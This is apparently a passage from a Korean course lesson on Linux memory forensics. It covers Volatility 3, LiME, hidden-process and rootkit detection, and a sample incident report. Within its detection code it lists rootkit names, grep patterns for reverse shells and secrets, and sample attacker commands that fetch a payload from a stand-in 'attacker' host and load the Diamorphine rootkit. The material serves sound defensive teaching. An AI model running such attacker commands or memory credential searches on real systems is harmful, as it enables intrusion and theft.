# Volatility3 자동 분석 스크립트 (메모리 덤프가 있을 때 사용)
# Usage: ./vol3_auto_analysis.sh <memory_dump>

DUMP=${1:-"memdump.lime"}
OUTPUT_DIR="/tmp/vol3_results/$(date +%Y%m%d_%H%M%S)"

if [ ! -f "$DUMP" ]; then
    echo "메모리 덤프 파일이 없습니다: $DUMP"
    echo "사용법: $0 <memory_dump_file>"
    echo ""
    echo "=== 분석 순서 가이드 (메모리 덤프가 있을 때) ==="
    echo ""
    echo "1단계: 기본 정보"
    echo "  vol -f \$DUMP linux.pslist.PsList > pslist.txt"
    echo "  vol -f \$DUMP linux.pstree.PsTree > pstree.txt"
    echo ""
    echo "2단계: 네트워크"
    echo "  vol -f \$DUMP linux.netstat.Netstat > netstat.txt"
    echo ""
    echo "3단계: 악성코드 탐지"
    echo "  vol -f \$DUMP linux.malfind.Malfind > malfind.txt"
    echo ""
    echo "4단계: 커널 점검"
    echo "  vol -f \$DUMP linux.lsmod.Lsmod > lsmod.txt"
    echo "  vol -f \$DUMP linux.check_syscall.Check_syscall > syscall.txt"
    echo ""
    echo "5단계: 히스토리"
    echo "  vol -f \$DUMP linux.bash.Bash > bash_history.txt"
    echo ""
    echo "6단계: 증거 추출"
    echo "  vol -f \$DUMP linux.elfs.Elfs --pid <suspicious_pid> --dump"
    exit 0
fi

mkdir -p "$OUTPUT_DIR"
echo "분석 시작: $DUMP"
echo "결과 디렉토리: $OUTPUT_DIR"

# 자동 실행
for plugin in linux.pslist.PsList linux.pstree.PsTree linux.netstat.Netstat \
              linux.malfind.Malfind linux.lsmod.Lsmod linux.bash.Bash; do
    name=$(echo "$plugin" | rev | cut -d. -f1 | rev)
    echo "  실행: $plugin..."
    vol -f "$DUMP" "$plugin" > "$OUTPUT_DIR/${name}.txt" 2>/dev/null
done

echo ""
echo "=== 분석 완료 ==="
ls -la "$OUTPUT_DIR/"
SCRIPT

chmod +x /tmp/vol3_auto_analysis.sh
bash /tmp/vol3_auto_analysis.sh
```

---

## 다음 주 예고

**Week 09: 악성코드 분석 기초**에서는 정적/동적 분석 기법으로 악성코드를 분석한다. strings, strace, sandbox 환경을 활용한 안전한 분석 방법을 학습한다.

---

## 웹 UI 실습

### Wazuh Dashboard — 메모리 포렌식 연계

> **접속 URL:** `https://10.20.30.100:443`

1. 브라우저에서 `https://10.20.30.100:443` 접속 → 로그인
2. **Modules → Security events** 클릭
3. 메모리 포렌식에서 발견한 의심 프로세스의 로그 추적:
   ```
   data.process.name: <의심_프로세스명> OR data.audit.exe: *<의심_프로세스명>*
   ```
4. 해당 프로세스의 최초 실행 시점, 네트워크 연결, 파일 접근 이력 확인
5. **Modules → Integrity monitoring** 에서 관련 파일 변경 이력 확인
6. Volatility3 분석 결과와 Wazuh 로그를 교차 검증하여 타임라인 구성

### OpenCTI — 악성 프로세스/해시 위협 조회

> **접속 URL:** `http://10.20.30.100:8080`

1. `http://10.20.30.100:8080` 접속 → 로그인
2. **Observations → Observables** 에서 파일 해시(MD5/SHA256) 검색
3. 메모리 덤프에서 추출한 악성 바이너리의 해시를 입력하여 알려진 위협 매칭
4. 매칭 시 **Knowledge** 탭에서 악성코드 패밀리, 배후 그룹 정보 확인
5. 미등록 해시의 경우 **+ Create** 로 새 Observable 등록 → 조직 내 위협 DB 구축

---

## 📂 실습 참조 파일 가이드

> 이번 주 실습에서 **실제로 조작하는** 솔루션의 기능·경로·파일·설정·UI 요점입니다.

### Volatility 3
> **역할:** 메모리 이미지 포렌식 프레임워크  
> **실행 위치:** `분석 PC`  
> **접속/호출:** `vol -f mem.raw <plugin>`

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `volatility3/volatility3/plugins/` | 플러그인 소스 |
| `~/symbols/` | 커널 심볼 캐시 |

**핵심 설정·키**

- `windows.pslist / linux.pslist` — 프로세스 열거
- `windows.malfind` — 주입된 코드 탐지
- `windows.netscan` — 열린 소켓

**UI / CLI 요점**

- `vol -f mem.raw windows.pstree` — 프로세스 트리
- `vol -f mem.raw windows.cmdline` — 실행된 명령행
- `vol -f mem.raw linux.bash` — bash 히스토리 복원

> **해석 팁.** Volatility 3은 **심볼 자동 다운로드**가 필요하므로 오프라인 분석 시 `--symbol-dirs`로 미리 준비. 샘플 복사 시 `md5sum`로 무결성 확인 필수.

---

## 실제 사례 (WitFoo Precinct 6 — Threat Hunting 심화)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *Threat Hunting 심화* 학습 항목 매칭.

### Threat Hunting 심화 의 dataset 흔적 — "hypothesis-driven"

dataset 의 정상 운영에서 *hypothesis-driven* 신호의 baseline 을 알아두면, *Threat Hunting 심화* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — PEAK 프레임워크.



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | hypothesis-driven |
| 정량 baseline | PEAK 프레임워크 |
| 학습 매핑 | MITRE ATT&CK 가이드 hunting |

**자세한 해석**: MITRE ATT&CK 가이드 hunting. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | hypothesis-driven 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **Threat Hunting 심화 = hypothesis-driven 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — PEAK 프레임워크.
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: 1주 hunt 보고서.


---

## 부록: 학습 OSS 도구 매트릭스 (Course14 SOC Advanced — Week 08 메모리 포렌식·Volatility·LiME·rootkit)

> 이 부록은 lab `soc-adv-ai/week08.yaml` (10 step + multi_task) 의 모든 명령을
> 실제로 실행 가능한 형태로 정리한다. Linux 메모리 dump (LiME / AVML), Volatility 3
> plugin (pslist/pstree/netstat/bash/lsmod/check_*), /proc 직접 분석, rootkit 탐지,
> syscall table 무결성, 메모리 포렌식 보고서까지.

### lab step → 도구·메모리 매핑 표

| step | 학습 항목 | 핵심 OSS 도구 / 명령 | ATT&CK |
|------|----------|---------------------|--------|
| s1 | 메모리 상태 + dump 공간 | `free -h`, `cat /proc/meminfo`, slab info | - |
| s2 | /proc 프로세스 enum + 비정상 | python /proc 직접 + ps 비교 | T1057 |
| s3 | 프로세스 트리 (parent-child anomaly) | pstree + ps -ef + osquery | T1059 / T1574 |
| s4 | 숨겨진 프로세스 탐지 | /proc enum vs ps diff + unhide | T1014 |
| s5 | 네트워크 연결 (메모리 관점) | /proc/net/tcp 직접 + lsof | T1071 |
| s6 | 메모리 맵 + strings | /proc/PID/maps + strings + xxd | T1003 |
| s7 | 커널 모듈 무결성 | lsmod + modinfo + 서명 | T1014 |
| s8 | bash history + 환경변수 | /proc/PID/environ + .bash_history | T1059.004 |
| s9 | 시스템 콜 테이블 무결성 | /proc/kallsyms + chkrootkit | T1014 |
| s10 | 메모리 포렌식 종합 보고서 | markdown + 5 phase + IOC | - |
| s99 | 통합 다단계 (s1→s2→s3→s4→s5) | Bastion plan: meminfo→/proc→tree→hidden→net | 다중 |

### 학생 환경 준비

```bash
# === Volatility 3 ===
pip install --user volatility3
vol3 --help

# === LiME ===
sudo apt install -y linux-headers-$(uname -r) build-essential
git clone https://github.com/504ensicsLabs/LiME /tmp/lime
cd /tmp/lime/src && make

# === AVML ===
git clone https://github.com/microsoft/avml /tmp/avml
sudo install /tmp/avml/avml /usr/local/bin/

# === Rootkit 탐지 ===
sudo apt install -y unhide rkhunter chkrootkit

# === 기본 도구 ===
sudo apt install -y procps kmod binutils
```

### 핵심 도구별 상세 사용법

#### 도구 1: 메모리 상태 + Dump 준비 (Step 1)

```bash
# 시스템 메모리
free -h
cat /proc/meminfo | head -20
sudo cat /proc/slabinfo | head -10   # 커널 slab cache

# Dump 공간 추정
TOTAL_KB=$(grep MemTotal /proc/meminfo | awk '{print $2}')
echo "Memory: $((TOTAL_KB/1024))MB, Dump 필요: $((TOTAL_KB*11/1024/10))MB (10% 여유)"

# /tmp 가 tmpfs 면 dump 위치 분리
mount | grep tmpfs

# === LiME dump ===
cd /tmp/lime/src
sudo insmod lime-$(uname -r).ko "path=/var/log/forensics/mem.lime format=lime"
ls -lh /var/log/forensics/mem.lime

# === AVML 대안 ===
sudo /usr/local/bin/avml /var/log/forensics/mem.avml

# === Hash + CoC ===
sudo sha256sum /var/log/forensics/mem.* > /var/log/forensics/mem-hash.txt
cat > /var/log/forensics/coc-mem-2026-05-02.txt << 'COC'
=== CHAIN OF CUSTODY — Memory Dump ===
Case: IR-2026-Q2-001
File: mem.lime (8.0 GB)
SHA256: $(sha256sum /var/log/forensics/mem.lime | cut -d' ' -f1)
Captured: 2026-05-02 14:00:30 KST (web 호스트)
Tool: LiME 1.9 + Linux 5.15
Storage: read-only encrypted volume
COC
```

#### 도구 2: /proc 직접 분석 (Step 2·3)

```python
import os, json

processes = []
for pid in os.listdir('/proc'):
    if not pid.isdigit(): continue
    try:
        cmdline = open(f'/proc/{pid}/cmdline').read().replace('\x00',' ').strip()
        comm = open(f'/proc/{pid}/comm').read().strip()
        exe = os.readlink(f'/proc/{pid}/exe') if os.path.exists(f'/proc/{pid}/exe') else ''
        status = open(f'/proc/{pid}/status').read()
        ppid = next((l.split()[1] for l in status.split('\n') if l.startswith('PPid:')), '?')
        uid = next((l.split()[1] for l in status.split('\n') if l.startswith('Uid:')), '?')
        processes.append({'pid':int(pid), 'ppid':int(ppid) if ppid!='?' else 0,
                         'uid':int(uid) if uid!='?' else 0,
                         'comm':comm, 'cmdline':cmdline[:200], 'exe':exe})
    except Exception: pass

# 비정상 1: cmdline 비어있음
hidden = [p for p in processes if not p['cmdline'] and not p['comm'].startswith('[')]
for p in hidden: print(f"[no-cmdline] PID {p['pid']} comm='{p['comm']}'")

# 비정상 2: 의심 경로
sus = [p for p in processes if any(d in p['exe'] for d in ('/tmp/','/dev/shm/','/var/tmp/'))]
for p in sus: print(f"[sus-path] PID {p['pid']} exe={p['exe']}")

# 비정상 3: deleted (fileless)
deleted = [p for p in processes if '(deleted)' in p['exe']]
for p in deleted: print(f"[fileless] PID {p['pid']} cmdline={p['cmdline']}")

# 비정상 4: 부모-자식 (web → shell)
for p in processes:
    if p['comm'] in ('bash','sh','dash'):
        parent = next((x for x in processes if x['pid']==p['ppid']), None)
        if parent and parent['comm'] in ('nginx','apache2','php-fpm','java'):
            print(f"WARN: shell from web — PID {p['pid']} parent={parent['comm']}")

json.dump(processes, open('/tmp/proc-enum.json','w'), indent=2)
```

```bash
# bash 빠른 분석
ps -eo pid,ppid,comm,args | awk '$2 == 1 && $3 != "systemd" && $3 != "init"'
ps -eo pid,comm,args | grep -E '(/proc/[0-9]+/(fd|exe)|/dev/shm/)'   # fileless

# 프로세스 트리
pstree -p | head -30
pstree -p $(pgrep nginx) | head
```

#### 도구 3: 숨겨진 프로세스 탐지 (Step 4)

```bash
# /proc enum vs ps
diff <(ls /proc | grep -E '^[0-9]+$' | sort -n) \
     <(ps -eo pid --no-headers | sort -n)

# unhide
sudo unhide brute       # PID 무차별 검사
sudo unhide proc        # /proc/<pid> + maps + exists 비교
sudo unhide-tcp         # 숨겨진 socket
sudo unhide sys         # syscall scan (가장 신뢰)

# 직접 kill check
for pid in $(seq 1 65535); do
    [ -d "/proc/$pid" ] && ! ps -p $pid > /dev/null 2>&1 && \
      echo "HIDDEN: $pid ($(cat /proc/$pid/comm 2>/dev/null))"
done | head

# Volatility (메모리 dump)
vol3 -f /var/log/forensics/mem.lime linux.pslist > /tmp/vol-pslist.txt
vol3 -f /var/log/forensics/mem.lime linux.psscan > /tmp/vol-psscan.txt
diff <(awk '{print $2}' /tmp/vol-pslist.txt | sort) <(awk '{print $2}' /tmp/vol-psscan.txt | sort)
# psscan 만 있는 PID = 숨김 (unlinked task)
```

#### 도구 4: 네트워크 연결 (메모리) (Step 5)

```bash
# /proc/net/tcp 직접 파싱
cat /proc/net/tcp | awk 'NR>1 {
    split($2,l,":"); split($3,r,":")
    lip=sprintf("%d.%d.%d.%d", strtonum("0x"substr(l[1],7,2)),strtonum("0x"substr(l[1],5,2)),
                                strtonum("0x"substr(l[1],3,2)),strtonum("0x"substr(l[1],1,2)))
    rip=sprintf("%d.%d.%d.%d", strtonum("0x"substr(r[1],7,2)),strtonum("0x"substr(r[1],5,2)),
                                strtonum("0x"substr(r[1],3,2)),strtonum("0x"substr(r[1],1,2)))
    printf "%s:%d -> %s:%d  state=%s  inode=%s\n", lip, strtonum("0x"l[2]), rip, strtonum("0x"r[2]), $4, $10
}' | head

# lsof + ss
sudo lsof -i -n -P | head -20
sudo ss -tunap | head

# 의심 outbound (bash/nc/python 외부 IP 통신)
sudo ss -tunap | awk '
    /^tcp/ && $4 != "127.0.0.1:" {
        if ($6 ~ /(bash|sh|nc|ncat|python|perl)/) print "Suspicious:", $0
    }' | head

# Volatility
vol3 -f /var/log/forensics/mem.lime linux.netstat
```

#### 도구 5: 메모리 맵 + Strings (Step 6)

```bash
PID=5678
sudo cat /proc/$PID/maps | head -20

# 익명 RWX 매핑 (shellcode injection 의심)
sudo awk '/rwxp/ && !/\[/' /proc/$PID/maps

# /proc/PID/mem 직접
sudo dd if=/proc/$PID/mem bs=1 skip=$((0x7f1234000000)) count=$((0x100000)) 2>/dev/null > /tmp/mem-segment.bin
strings /tmp/mem-segment.bin | head -30

# 의심 키워드
sudo strings /proc/$PID/mem 2>/dev/null | grep -iE "(password|secret|api_key|/bin/sh -i)" | head

# 전체 프로세스 검사
for pid in $(ps -eo pid --no-headers); do
    sudo strings /proc/$pid/mem 2>/dev/null | \
      grep -qE "(reverse_shell|backdoor|/bin/sh -i)" && \
      echo "Suspicious memory: PID $pid ($(cat /proc/$pid/comm))"
done

# Volatility
vol3 -f /var/log/forensics/mem.lime strings -s /tmp/strings.txt
grep -iE "password|api_key" /tmp/strings.txt | head
vol3 -f /var/log/forensics/mem.lime linux.proc.Maps --pid 5678
```

#### 도구 6: 커널 모듈 무결성 (Step 7)

```bash
lsmod | head -20
modinfo nf_log_syslog       # 서명 + 경로 + 버전

# 비정상 경로
for m in $(lsmod | awk 'NR>1 {print $1}'); do
    path=$(modinfo $m 2>/dev/null | grep filename | awk '{print $2}')
    [ -n "$path" ] && [[ "$path" != /lib/modules/* ]] && echo "WARN: $m at $path"
done

# 알려진 rootkit
RKMODS="diamorphine reptile suterusu jynx pop3 phalanx adore"
for m in $RKMODS; do
    lsmod | grep -q "^$m" && echo "ROOTKIT 의심: $m loaded"
done

# /proc/modules 직접 (lsmod 우회)
sudo cat /proc/modules | head

# Volatility
vol3 -f /var/log/forensics/mem.lime linux.lsmod
vol3 -f /var/log/forensics/mem.lime linux.check_modules

# Diamorphine 시그니처
sudo dmesg | grep -i diamorphine
ls /sys/module/diamorphine 2>/dev/null
```

#### 도구 7: bash history + 환경변수 (Step 8)

```bash
# bash_history (디스크)
sudo grep -rE "(wget|curl|nc -e|base64|chmod \+s|chattr \+i|/etc/shadow)" \
    /home/*/.bash_history /root/.bash_history 2>/dev/null | head

# /proc/PID/environ
PID=5678
sudo cat /proc/$PID/environ | tr '\0' '\n' | head
# LD_PRELOAD=/tmp/libev.so   ← rootkit 의심
# AWS_ACCESS_KEY=AKIA...      ← 자격증명 노출

# LD_PRELOAD 모든 프로세스
for pid in $(ps -eo pid --no-headers); do
    env=$(sudo cat /proc/$pid/environ 2>/dev/null | tr '\0' '\n' | grep ^LD_PRELOAD)
    [ -n "$env" ] && echo "PID $pid: $env"
done

# /etc/ld.so.preload (global)
[ -f /etc/ld.so.preload ] && cat /etc/ld.so.preload

# Volatility — 메모리에서 직접 bash readline 추출
vol3 -f /var/log/forensics/mem.lime linux.bash
# PID  PROCESS  COMMAND TIME           COMMAND
# 5678 bash     2026-05-02 14:02:00    wget http://attacker/payload.sh
# 5678 bash     2026-05-02 14:02:35    insmod /tmp/diamorphine.ko
```

#### 도구 8: Syscall 무결성 (Step 9)

```bash
# /proc/kallsyms — 커널 심볼
sudo grep -E " T sys_(read|write|open|exec|kill|mount)$" /proc/kallsyms | head

# 텍스트 영역 외부 = rootkit hook
TEXT_START=$(sudo grep " T _text$" /proc/kallsyms | awk '{print $1}')
TEXT_END=$(sudo grep " R __init_end$" /proc/kallsyms | awk '{print $1}')
sudo grep -E " T sys_" /proc/kallsyms | while read addr type name; do
    if [[ "0x$addr" < "0x$TEXT_START" || "0x$addr" > "0x$TEXT_END" ]]; then
        echo "SUSPICIOUS: $name at $addr (outside kernel text)"
    fi
done

# Volatility
vol3 -f /var/log/forensics/mem.lime linux.check_syscall
vol3 -f /var/log/forensics/mem.lime linux.check_idt        # IDT 무결성
vol3 -f /var/log/forensics/mem.lime linux.check_creds      # 비정상 root

# chkrootkit + rkhunter
sudo chkrootkit | grep -v "not infected"
sudo rkhunter --check --skip-keypress 2>&1 | grep -iE "(warning|infected|rootkit)"
```

#### 도구 9: 메모리 포렌식 종합 보고서 (Step 10)

```bash
cat > /tmp/memory_forensics_report.txt << 'EOF'
=== Memory Forensics Report — IR-2026-Q2-001 ===

## 1. Acquisition
- Tool: LiME 1.9 / Target: web (10.20.30.80) / Time: 2026-05-02 14:00:30
- File: /var/log/forensics/mem.lime (8.0 GB) / SHA256: 029a5cefb1...
- CoC: /var/log/forensics/coc-mem-2026-05-02.txt

## 2. System State
- Memory: 7.7 GiB used 2.3, free 3.1, slab 345 MB

## 3. Process Analysis
- 총: 187 / 의심 경로: 1 (/tmp/payload deleted) / Fileless: 1
- Parent-child anomaly: PID 5678 bash, parent nginx (★)

## 4. Hidden Process
- unhide: HIDDEN PID 12345
- Volatility psscan: 1 추가 PID — pslist 에 없음 (unlinked task)

## 5. Network (suspicious outbound)
- 10.20.30.80:34567 → 192.168.1.50:4444 (PID 5678 bash, ESTABLISHED)

## 6. Memory Maps + Strings
- PID 5678 RWX 익명 매핑: 2 (shellcode 의심)
- strings: "reverse_shell", "/bin/sh -i", "192.168.1.50:4444"

## 7. Kernel Modules
- 비정상 경로: diamorphine.ko from /tmp/ (★ ROOTKIT)

## 8. Bash History (메모리)
- 14:02:00  wget http://attacker/payload.sh
- 14:02:30  chmod +x payload.sh
- 14:02:35  insmod /tmp/diamorphine.ko
- (디스크 /home/ccc/.bash_history 는 변조됨 ★)

## 9. Syscall Integrity
- /proc/kallsyms 외부 핸들러: 0
- chkrootkit: Diamorphine rootkit 의심
- rkhunter: warning Diamorphine

## 10. IOC
- Memory: PID 5678 (fileless), PID 12345 (hidden), diamorphine.ko
- Network: 192.168.1.50:4444 (reverse shell)
- File: /tmp/payload (deleted), /tmp/diamorphine.ko

## 11. Attack Timeline
- 14:01:23  attacker exploit web (week07 PCAP)
- 14:02:00  wget payload (메모리 bash history)
- 14:02:30  chmod + execute
- 14:02:35  insmod diamorphine.ko
- 14:02:40  hide PID 5678
- 14:03:00  reverse shell 192.168.1.50:4444

## 12. Recommendations
### Short-term (≤24h)
- 호스트 격리 + 디스크 이미징 + 다른 호스트 검사
### Mid-term (≤7일)
- diamorphine 시그니처 → Wazuh / chkrootkit 룰
- LKM 차단 (modules_disabled = 1)
- LD_PRELOAD 모니터링 (ld.so.preload + /proc/PID/environ)
### Long-term (≤90일)
- LiME 정기 운영 (월 1회)
- Volatility CI/CD
- EDR (Velociraptor) 도입
EOF

pandoc /tmp/memory_forensics_report.txt -o /tmp/memory_forensics_report.pdf \
  --pdf-engine=xelatex -V mainfont="Noto Sans CJK KR"
```

### 점검 / 분석 / 보고 흐름 (10 step + multi_task 통합)

#### Phase A — 수집 (s1·s2·s3)

```bash
cd /tmp/lime/src && sudo make
sudo insmod lime-$(uname -r).ko "path=/var/log/forensics/mem.lime format=lime"
sudo sha256sum /var/log/forensics/mem.lime > /var/log/forensics/mem.lime.sha256
python3 /tmp/proc-enum.py > /tmp/proc-enum.txt
```

#### Phase B — 분석 (s4·s5·s6·s7·s8·s9)

```bash
# Volatility 풀 분석
for plugin in pslist psscan netstat lsmod check_modules bash check_syscall; do
    vol3 -f /var/log/forensics/mem.lime linux.$plugin > /tmp/vol-${plugin}.txt
done

# 숨김 검출
diff <(awk '{print $2}' /tmp/vol-pslist.txt | sort) <(awk '{print $2}' /tmp/vol-psscan.txt | sort)

# rootkit
sudo unhide brute
sudo chkrootkit | grep -v "not infected"
sudo rkhunter --check --skip-keypress 2>&1 | grep -iE "(warning|infected)"
```

#### Phase C — 보고 + 격리 (s10)

```bash
vim /tmp/memory_forensics_report.txt
pandoc /tmp/memory_forensics_report.txt -o /tmp/memory_forensics_report.pdf

# 호스트 격리
ssh ccc@10.20.30.80 'sudo iptables -P OUTPUT DROP && sudo iptables -P INPUT DROP'
```

#### Phase D — 통합 시나리오 (s99 multi_task)

s1 → s2 → s3 → s4 → s5 를 Bastion 가 한 번에:

1. **plan**: meminfo → /proc enum → 트리 → 숨김 → 네트워크
2. **execute**: free + cat /proc + python /proc enum + ps + unhide + cat /proc/net/tcp + lsof
3. **synthesize**: 5 산출물 (meminfo.txt / proc-enum.json / pstree.txt / hidden.txt / netstat.txt)

### 도구 비교표 — 메모리 포렌식 단계별

| 단계 | 1순위 | 2순위 | 사용 조건 |
|------|-------|-------|----------|
| Linux dump | LiME (LKM) | AVML (no LKM) | LiME 정밀 |
| Windows dump | WinPmem | DumpIt | Windows |
| Live (no dump) | /proc + ps + unhide | osquery | 빠른 |
| dump 분석 | Volatility 3 | Volatility 2 (legacy) | v3 |
| Linux plugin | linux.pslist/psscan/netstat/bash/lsmod | linux.check_* | depth |
| Rootkit 탐지 | unhide + chkrootkit + rkhunter | OSSEC rootcheck | 다층 |
| LKM 검증 | check_modules + dkms | lsmod + /proc/modules | 다중 |
| Strings | strings + grep | volatility strings | 빠른 |
| Process injection | proc.Maps + RWX | hollowfind (Win) | RWX |
| LD_PRELOAD | /proc/PID/environ + ld.so.preload | osquery process_envs | 가벼움 |
| Syscall hook | check_syscall + check_idt | Tracee (eBPF live) | live |

### 도구 선택 매트릭스 — 시나리오별 권장

| 시나리오 | 우선 도구 | 이유 |
|---------|---------|------|
| "incident — 즉시" | LiME + Volatility 3 + chkrootkit | 표준 풀스택 |
| "live response (no dump)" | /proc + unhide + lsof | 빠른 |
| "fileless 의심" | Volatility proc.Maps + RWX | 메모리만 |
| "rootkit 의심" | chkrootkit + rkhunter + check_* | 다층 |
| "LD_PRELOAD" | /proc/PID/environ + ld.so.preload | 가벼움 |
| "credential dump" | Volatility strings + grep password | 메모리 |
| "법적 증거" | LiME + sha256 + PGP + CoC | 무결성 |
| "분산 환경" | Velociraptor (EDR + 메모리) | 자동 |

### 학생 셀프 체크리스트 (각 step 완료 기준)

- [ ] s1: free + meminfo + slab + dump 공간 + LiME/AVML dump
- [ ] s2: python /proc enum (PID/PPID/UID/comm/cmdline/exe) + 비정상
- [ ] s3: pstree + parent-child anomaly (web → shell)
- [ ] s4: /proc vs ps diff + unhide brute + Volatility psscan
- [ ] s5: /proc/net/tcp + lsof + ss + 비정상 outbound
- [ ] s6: /proc/PID/maps + RWX 익명 + strings + 의심 키워드
- [ ] s7: lsmod + modinfo + 비정상 경로 + 알려진 rootkit
- [ ] s8: /proc/PID/environ LD_PRELOAD + .bash_history + Volatility linux.bash
- [ ] s9: /proc/kallsyms 외부 + check_syscall + chkrootkit + rkhunter
- [ ] s10: 12 섹션 보고서 + IOC + timeline + 권고
- [ ] s99: Bastion 가 5 작업 (meminfo/proc/tree/hidden/net) 순차

### 추가 참조 자료

- **LiME** https://github.com/504ensicsLabs/LiME
- **AVML** https://github.com/microsoft/avml
- **Volatility 3 Docs** https://volatility3.readthedocs.io/
- **Volatility Linux Plugins** https://github.com/volatilityfoundation/volatility3/wiki/Linux-Plugins
- **The Art of Memory Forensics** Ligh, Case, Levy, Walters (Wiley 2014)
- **chkrootkit** http://www.chkrootkit.org/
- **rkhunter** http://rkhunter.sourceforge.net/
- **unhide** http://www.unhide-forensics.info/
- **Diamorphine** (분석 대상 — Linux LKM rootkit)
- **NIST SP 800-86** §3 Volatile Data
- **Velociraptor** OSS EDR
- **Microsoft DFIR Notebooks** https://github.com/microsoft/Microsoft-Defender-Hunting-Notebooks

위 모든 메모리 포렌식 작업은 **즉시 캡처 + 격리 분석 host** 로 수행한다. 메모리는 휘발성 —
전원 차단 시 회복 불가. LiME / AVML 은 root 필수, 분석은 격리 forensic VM. **dump 파일이
자격증명 / PII 포함** — read-only encrypted volume + access log + 7년 retention.
법적 절차는 week07 의 양식 참조.
